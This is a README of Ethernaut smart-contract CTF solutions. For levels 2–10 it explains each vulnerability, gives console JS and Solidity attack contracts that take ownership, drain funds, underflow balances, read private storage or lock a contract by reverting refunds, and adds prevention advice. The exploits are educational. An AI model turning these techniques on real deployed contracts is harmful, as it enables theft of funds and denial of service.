 # Ethernaut

> **CTF-style smart contract hacking challenges.**
> 
> This repo contains solutions and explanations for Ethernaut levels. Each branch corresponds to a different level.

<details>
<summary><strong>🪙 Level 2: Fallback</strong></summary>

### Overview

This challenge demonstrates how improper use of the `receive()` function and weak access control can allow attackers to take ownership of a contract and drain its funds.

The Fallback contract allows:
- Users to contribute small amounts of Ether.
- Ownership transfer to contributors who exceed the current owner’s contribution.
- Receiving Ether via `receive()` to also set the sender as the owner (if they have contributed before).

**Goal:** Become the owner of the contract and withdraw all funds.

---

### 🔍 Vulnerability Analysis

- **Weak Ownership Logic:**
  - Ownership can be reassigned if:
    - You send Ether directly to the contract using `receive()` **and**
    - You already have a non-zero contribution.
- **Lack of Proper Access Control:**
  - The `receive()` function is not protected by `onlyOwner`, so any contributor can trigger it to become the owner.
- **No Minimum Threshold for Ownership Transfer via receive():**
  - Any amount of Ether (>0) is enough to change the owner after a contribution.

---

### 🛠️ Exploitation Steps

1. **Make a Small Contribution**
   
   You must first contribute to have `contributions[msg.sender] > 0`:
   
   ```js
   await contract.contribute({ value: toWei("0.0000000000001") });
   await contract.getContribution(); // should be > 0
   ```

2. **Trigger `receive()` to Become Owner**
   
   Send Ether outside the ABI (direct transaction) to the contract address:
   
   ```js
   await contract.sendTransaction({
     to: "0xDBEBD77F08559597e2c4DA23520ca5603e151C66", // contract address
     value: toWei("0.0000000000001")
   });
   ```
   Now the `receive()` function runs and sets you as owner.

3. **Verify Ownership**
   
   ```js
   await contract.owner();
   // should return your wallet address
   ```

4. **Withdraw All Funds**
   
   ```js
   await contract.withdraw();
   ```
   All Ether in the contract is now transferred to your address.

---

### 🪲 Root Cause

The vulnerability stems from allowing state changes in `receive()` without proper access control.

> **Best practice:** Use `receive()` only for accepting Ether, not changing contract ownership.

---

### 🛡️ Prevention

- Never change ownership in `receive()` or `fallback()`.
- Use strict access control (`onlyOwner` or similar modifiers).
- Avoid logic in `receive()` that can be abused by anyone sending Ether.

---

</details>

<details>
<summary><strong>🪙 Level 3: Fal1out</strong></summary>

### Overview

In Solidity versions before 0.7.0, a constructor was defined by giving the function the same name as the contract. In this challenge, the intended constructor is misspelled as `Fal1out` instead of `Fallout`.

As a result, it is a public function that anyone can call—even after deployment—and it sets the `owner` variable to `msg.sender`. This lets us take ownership of the contract.

---

### 🔓 Vulnerable Code

```solidity
/* constructor */
function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
}
```

Because `Fal1out` is not recognized as a constructor, it becomes an external function that can be called by anyone.

---

### 🛠️ Exploitation Steps

1. **Deploy or create an instance of the challenge contract.**
2. **Call the `Fal1out()` function with your wallet:**
   ```js
   await contract.Fal1out();
   ```
3. **Verify ownership:**
   ```js
   await contract.owner(); // should return your address
   ```
4. **Withdraw funds:**
   - You are now the owner and can call `collectAllocations()` to withdraw funds.

---

### 📝 Key Takeaways

- In Solidity <0.7.0, constructors are identified by name matching the contract name exactly (case-sensitive).
- A typo in the constructor name turns it into a publicly callable function.
- From Solidity 0.7.0 onward, constructors are declared with the `constructor` keyword to avoid this issue.

---

</details>

<details>
<summary><strong>🪙 Level 4: Coin Flip</strong></summary>

### Vulnerable Contract & Problem

The original contract determines the coin flip outcome using:

```solidity
uint256 coinFlip = uint256(blockhash(block.number - 1)) / FACTOR;
```

- `blockhash(block.number - 1)` is publicly available, so anyone can predict the outcome before calling the function.
- `FACTOR` is a constant that makes `coinFlip` either 0 or 1.
- **Result:** The randomness is fully deterministic and predictable.

---

### 💥 Exploit Strategy

1. Read the blockchain’s last block hash using the same formula as the contract.
2. Calculate the expected outcome (`true` or `false`).
3. Submit the guess to the contract.
4. Repeat for 10 consecutive wins to complete the challenge.

---

## 🛠️ Hack Contract (FlipCoin Branch)

### 🔑 How the Hack Works

- The Hack contract imports the vulnerable CoinFlip contract.
- `_guess()` replicates the calculation from the original contract.
- Both contracts run in the same transaction, sharing the same `block.number` and `blockhash`, ensuring the prediction is always correct.
- By calling `flip()` every block, the attacker gets a 100% win rate.

---

## ⚠️ Security Lessons

- On-chain randomness is **not secure** if it relies on predictable values like `blockhash` or `block.timestamp`.
- Use [Chainlink VRF](https://docs.chain.link/vrf/v2/introduction/) or other verifiable randomness oracles for secure random numbers.
- Never assume miners won't manipulate predictable variables—they can influence them.

---

</details>

<details>
<summary><strong>🪙 Level 5: Telephone</strong></summary>

### 🎯 Objective

Become the owner of the Telephone contract.

---

### 🔍 Understanding the Vulnerability

The Telephone contract has a function:

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

- `tx.origin` is the original externally-owned account (EOA) that started the transaction.
- `msg.sender` is the direct caller of the function.
- The condition `tx.origin != msg.sender` ensures you cannot call `changeOwner` directly from your wallet, because in that case both values would be the same.
- However, if you call `changeOwner` through another contract, then:
  - `tx.origin` will be your wallet address (EOA).
  - `msg.sender` will be the attacking contract’s address.
- This makes the condition `tx.origin != msg.sender` true, allowing us to change the owner.

---

### 🛠️ Exploit Strategy

Deploy an attacker contract that:
- Stores the target Telephone contract address.
- Calls `changeOwner(msg.sender)` on it.
- Call the attack function from your wallet so `msg.sender` in the target contract is the attacker contract’s address.
- This bypasses the `tx.origin` check and sets you as the owner.

---

### 💻 Exploit Code (Telephone branch)


### 📝 Step-by-Step Execution

1. **Deploy the HackTelephone contract** with the Telephone contract’s address as a constructor argument.
2. **Call `hackTelephone()` from your wallet.**
3. **Verify ownership in the console:**
   ```js
   await contract.owner(); // should return your wallet address
   ```

---

### ⚠️ Key Takeaway

- **Never rely on `tx.origin` for authentication checks.**
- Always use `msg.sender` to validate the caller, and implement proper access control with `onlyOwner` or similar patterns.

---

</details>

<details>
<summary><strong>🪙 Level 6: Token</strong></summary>

### 🎯 Objective

You start with 20 tokens. The goal is to increase your balance beyond the initial amount using the given smart contract.

---

### 🔍 Vulnerability

The `transfer` function has this check:

```solidity
require(balances[msg.sender] - _value >= 0);
```

- Since this contract is compiled with Solidity 0.6.0, arithmetic operations do **not** automatically revert on underflow/overflow.
- If you try to transfer more tokens than you have, `balances[msg.sender] - _value` underflows, wrapping around to a huge number (close to 2^256 - 1).
- This drastically increases your balance.

---

### 🛠️ Exploit Steps

1. **Deploy the level instance.**
2. **Call:**
   ```js
   await contract.transfer(<victim_address>, 21);
   ```
   Here, 21 is more than your balance (20), causing an underflow.
3. **Your balance will now be a huge number, completing the challenge.**

---

### 🧪 Proof of Concept (JavaScript Console)

```js
// Check initial balance
(await contract.balanceOf(player)).toString();
// > 20

// Exploit: Transfer more than you have
await contract.transfer("0x0000000000000000000000000000000000000000", 21);

// Check balance again
(await contract.balanceOf(player)).toString();
// > Very large number (underflow occurred)
```

---

### 📝 Key Takeaways

- Before Solidity 0.8.0, arithmetic was unchecked by default, allowing underflows and overflows.
- Always use SafeMath (or Solidity 0.8+ built-in checks) for safe arithmetic.
- Never assume `require(x - y >= 0)` will prevent negatives — with unsigned integers, negatives don't exist, they wrap.

---

</details>

<details>
<summary><strong>🪙 Level 7: Delegation</strong></summary>

### 🎯 Challenge Goal

Become the owner of the Delegation contract without directly calling its functions.

---

### 🔍 Vulnerability Explanation

The Delegation contract uses a `fallback()` function that executes:

```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```

- `delegatecall` executes the code from `delegate` (the Delegate contract) in the context of Delegation's storage.
- This means that if we trigger a function in Delegate (like `pwn()`), it will modify Delegation's `owner` variable, not Delegate's.
- Since `pwn()` sets:
  ```solidity
  owner = msg.sender;
  ```
  Calling it via `delegatecall` will set our address as owner in Delegation.

---

### 🛠️ Exploit Steps

1. **Craft a transaction to call `pwn()` on the Delegation contract** without directly calling it.
   - We do this by sending the function selector of `pwn()` to the Delegation contract.
2. **The `fallback()` function in Delegation will forward this call to Delegate** using `delegatecall`.
3. **The code in `pwn()` will run, setting `owner` in the Delegation contract to our address.**

4. **Important:** Call from your EOA (not via a contract). If you trigger `pwn()` through an attacking contract, that contract becomes the owner. Use Remix or a console to send the `pwn()` selector directly from your wallet.

---

### 📚 Detailed Explanation

If you didn't get the 2nd point, here's a brief explanation:

Let's slow it down and make the `fallback()` + `delegatecall` part crystal clear, step by step, because that's the key to understanding this Ethernaut challenge.

#### 1️⃣ What `fallback()` does in Solidity

The `fallback()` function is automatically triggered when:
- You send a transaction to a contract that doesn't match any existing function.
- Or you send raw data that doesn't match any function signature.

**Example:**
```solidity
fallback() external payable {
    // runs if no other function matches
}
```

So if we call Delegation with `pwn()` data, but Delegation has no function named `pwn`, `fallback()` will execute.

</details>

<details>
<summary><strong>🪙 Level 8: Vault</strong></summary>

### Overview

This challenge demonstrates a fundamental misconception about privacy in Ethereum smart contracts. The `private` keyword in Solidity only restricts access from other contracts during execution—it does not hide data from off-chain observers.

All contract storage is publicly readable on the blockchain, making "private" variables accessible to anyone who knows how to read storage slots.

**Goal:** Unlock the vault by setting `locked = false`.

---

### 🔍 Vulnerability Analysis

- **Misunderstanding of `private` Visibility:**
  - The `password` variable is marked as `private`, but this only prevents other contracts from accessing it during execution.
  - All storage data remains publicly readable on the blockchain.
- **No Encryption:**
  - The password is stored as plain text in storage, not encrypted.
- **Predictable Storage Layout:**
  - Solidity stores variables sequentially in storage slots, making it easy to determine which slot contains the password.

---

### 🛠️ Exploitation Steps

1. **Understand Storage Layout**
   
   The contract stores variables in this order:
   - Slot 0: `bool public locked`
   - Slot 1: `bytes32 private password`

2. **Read the Password from Storage**
   
   Use `web3.eth.getStorageAt()` to read the password from slot 1:
   
   ```js
   const password = await web3.eth.getStorageAt(instance, 1);
   console.log("Password:", password);
   ```

3. **Unlock the Vault**
   
   Call the `unlock()` function with the retrieved password:
   
   ```js
   await contract.unlock(password);
   ```

4. **Verify Success**
   
   Check that the vault is now unlocked:
   
   ```js
   const locked = await contract.locked();
   console.log("Vault locked:", locked); // should be false
   ```

---

### 📚 Detailed Explanation

#### Storage Visibility in Ethereum

In Ethereum, all contract storage is publicly readable. The `private` keyword in Solidity only affects:
- **Compile-time access:** Other contracts cannot directly reference private variables
- **Runtime access:** Private variables cannot be accessed by other contracts during execution

However, **off-chain observers can always read any storage slot** using:
- Block explorers
- RPC calls like `eth_getStorageAt`
- Web3 libraries

#### Storage Layout

Solidity stores variables sequentially in 32-byte storage slots:
```solidity
contract Vault {
    bool public locked;          // Slot 0 (32 bytes, but bool only uses 1 byte)
    bytes32 private password;    // Slot 1 (32 bytes)
}
```

Since `bool` variables only use 1 byte, the remaining 31 bytes in slot 0 are unused but still part of the slot.

---

### 🪲 Root Cause

The vulnerability stems from the misconception that `private` variables are hidden from off-chain observers. In reality, Ethereum's transparency means all data is publicly accessible.

> **Key takeaway:** `private` in Solidity ≠ private in traditional programming. It only restricts contract-to-contract access, not blockchain visibility.

---

### 🛡️ Prevention

- **Never store sensitive data in plain text** on the blockchain
- **Use encryption** for sensitive data if it must be stored
- **Implement access control** rather than relying on visibility modifiers
- **Consider off-chain storage** for truly sensitive information
- **Educate developers** about blockchain transparency

---

### 🧪 Complete Exploit Code

```js
// 1) Read the password from storage slot 1
const password = await web3.eth.getStorageAt(instance, 1);
console.log("Retrieved password:", password);

// 2) Unlock the vault using the password
await contract.unlock(password);

// 3) Verify the vault is unlocked
const locked = await contract.locked();
console.log("Vault locked:", locked);

// 4) Confirm success
if (!locked) {
    console.log("✅ Vault successfully unlocked!");
} else {
    console.log("❌ Vault still locked");
}
```

---

### 🔗 Related Concepts

- **Storage Layout:** Understanding how Solidity organizes contract storage
- **Blockchain Transparency:** Why all on-chain data is public
- **Access Control:** Proper ways to restrict functionality
- **Data Privacy:** Strategies for handling sensitive information on public blockchains

</details>

<details>
<summary><strong>🪙 Level 9: King</strong></summary>

### Overview

This level is a "King of the Hill" contract. To become the new king, a caller must pay at least the current `prize`. The contract then tries to refund the previous king using `transfer` before updating the state. If the refund fails, the whole transaction reverts.

**Goal:** Become king and lock the contract so no one can dethrone you.

---

### 🔓 Vulnerable Code (core idea)

<details>
<summary><code>contract King {</code></summary>

```solidity
contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value); // <--- external call that can revert
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

</details>

---

### 🔍 Vulnerability Analysis

- **Push payments with `transfer`:** The contract sends ETH to the previous king using `transfer`, which forwards 2300 gas and reverts on any failure.
- **State updated after external call:** If the refund reverts, the contract never reaches the state update, so no one can become the new king.
- **Malicious recipient can force failure:** A contract can intentionally revert in `receive()`/`fallback()`, causing every dethroning attempt to fail.

---

### 🛡️ Attack Contract

<details>
<summary><code>// SPDX-License-Identifier: MIT</code></summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IKing {
    function prize() external view returns (uint256);
}

contract KingAttack {
    address payable public target;

    constructor(address payable _target) {
        target = _target;
    }

    // Send enough ETH to claim kingship
    function attack() external payable {
        (bool ok, ) = target.call{value: msg.value}("");
        require(ok, "call failed");
    }

    // Block all refunds to lock the game
    receive() external payable { revert("no refunds"); }
    fallback() external payable { revert("no refunds"); }
}
```

</details>

---

### 🧪 Exploitation Steps

1. Read the current `prize`:
   ```js
   const prize = await contract.prize();
   ```
2. Deploy `KingAttack` with the level instance address.
3. Call `attack()` and send `value: prize` (or `prize + 1`):
   ```js
   await kingAttack.attack({ value: prize });
   ```
4. Verify you are the king:
   ```js
   await contract._king(); // should be kingAttack address
   ```
5. Try dethroning from an EOA with more ETH — it should revert because your contract rejects the refund.

---

### 📚 Detailed Explanation

- **`transfer` forwards 2300 gas:** This is barely enough for a simple `LOG` and no storage writes. If the recipient reverts or is non-payable, the `transfer` reverts the entire transaction.
- **Push vs Pull payments:** Pushing ETH during state transitions creates a hard dependency on recipients. If they cannot receive, your logic breaks.
- **External call before state update:** Combining an external call with state updates in the same function increases fragility and attack surface.

---

### 🪲 Root Cause

Relying on push-based refunds with `transfer` during the critical path of state updates. A refund failure prevents updating the king, allowing a malicious king to brick the contract.

---

### 🛡️ Prevention

- Prefer the **withdraw (pull) pattern**: record balances owed and let users withdraw later.
- Avoid `transfer`/`send`; use low-level `call` and handle failures gracefully if you must send.
- Apply **checks-effects-interactions**: update state first, then interact, or decouple payments entirely.
- Consider adding an emergency path or owner override (carefully designed) to recover from blocked refunds.

---

### 🧪 Complete Exploit (JS + Solidity)

<details>
<summary><code>// KingAttack.sol</code></summary>

```solidity
// KingAttack.sol
pragma solidity ^0.8.0;
contract KingAttack {
    address payable public target;
    constructor(address payable _target) { target = _target; }
    function attack() external payable {
        (bool ok,) = target.call{value: msg.value}("");
        require(ok, "call failed");
    }
    receive() external payable { revert("no refunds"); }
    fallback() external payable { revert("no refunds"); }
}
```

</details>

<details>
<summary><code>// Console</code></summary>

```js
// Console
const prize = await contract.prize();
await kingAttack.attack({ value: prize });
await contract._king(); // => kingAttack address
```

</details>

---

### 🔗 Related Concepts

- **Push vs Pull Payments**
- **`transfer`/`send` vs `call`**
- **Checks-Effects-Interactions**
- **Denial-of-Service via unexpected revert**

</details>

<details>
<summary><strong>🪙 Level 10: Elevator</strong></summary>

### Overview

The `Elevator` contract asks an external contract (treated as `Building`) whether a floor is the last one. It calls `isLastFloor` twice and makes a decision based on the answers. Because it fully trusts the external response, an attacker can return different answers on each call to set `top = true`.

**Goal:** Reach the top floor by setting `top = true`.

---

### 🔓 Vulnerable Contract (simplified)

<details>
<summary><code>contract Elevator {</code></summary>

```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        if (!Building(msg.sender).isLastFloor(_floor)) {
            floor = _floor;
            top = Building(msg.sender).isLastFloor(floor);
        }
    }
}
```

</details>

---

### 🔍 Vulnerability Analysis

- **Untrusted callback controls logic:** The contract trusts `Building(msg.sender)` to answer security-critical questions.
- **Inconsistent responses enable bypass:** Because `isLastFloor` is not `view`, the callee can return `false` first and `true` later in the same transaction.
- **Double-check pattern is exploitable:** The second call can differ from the first, allowing `top` to be set to `true`.

---

### 🛡️ Attack Contract

<details>
<summary><code>// ElevatorAttack.sol</code></summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IElevator {
    function goTo(uint256 _floor) external;
    function top() external view returns (bool);
}

contract ElevatorAttack {
    IElevator public target;
    bool private toggled;

    constructor(address _target) {
        target = IElevator(_target);
    }

    function attack(uint256 _floor) external {
        target.goTo(_floor);
        require(target.top(), "Not at top");
    }

    // Called by Elevator via Building(msg.sender)
    function isLastFloor(uint256) external returns (bool) {
        bool answer = toggled; // false on first call, true on second
        toggled = !toggled;
        return answer;
    }
}
```

</details>

---

### 🧪 Exploitation Steps

1. Deploy `ElevatorAttack` with the target `Elevator` address.
2. Call `attack(1)` to trigger `goTo(1)`.
3. The first `isLastFloor` returns `false` → contract sets `floor`.
4. The second `isLastFloor` returns `true` → contract sets `top = true`.
5. Verify `top` is now `true`.

---

### 📚 Detailed Explanation

- The `Elevator` contract expects the caller to implement `isLastFloor`. By initiating the call from our attack contract, `msg.sender` inside `Elevator` is our contract, so `Elevator` calls back into us.
- Because `isLastFloor` is not marked `view`, the implementation can track state and alternate answers across calls within the same transaction.
- Returning `false` first and `true` second satisfies the `Elevator` logic to set `top = true`.

---

### 🪲 Root Cause

Trusting an untrusted external callback for a security-critical decision without constraining behavior (e.g., requiring `view`/determinism) or establishing a trusted `Building` address.

---

### 🛡️ Prevention

- Avoid trusting callbacks from arbitrary callers for critical logic.
- If callbacks are unavoidable, constrain them (e.g., `view`/`pure`) and enforce a trusted `Building` address set by the owner.
- Validate invariants independently rather than relying entirely on external responses.

---

### 🧪 Complete Exploit (Console)

<details>
<summary><code>// Hardhat/Foundry console</code></summary>

```js
// instance = address of the deployed Elevator level instance
const Attack = await ethers.getContractFactory("ElevatorAttack");
const attack = await Attack.deploy(instance);
await attack.deployed();

await attack.attack(1);
const elevator = await ethers.getContractAt("Elevator", instance);
console.log("top:", await elevator.top()); // true
```

</details>

---

### 🔗 Related Concepts

- Callback-based design and trust boundaries
- Determinism (`view`/`pure`) in external interfaces
- Cross-contract control flow and reentrancy-like logic pitfalls

</details>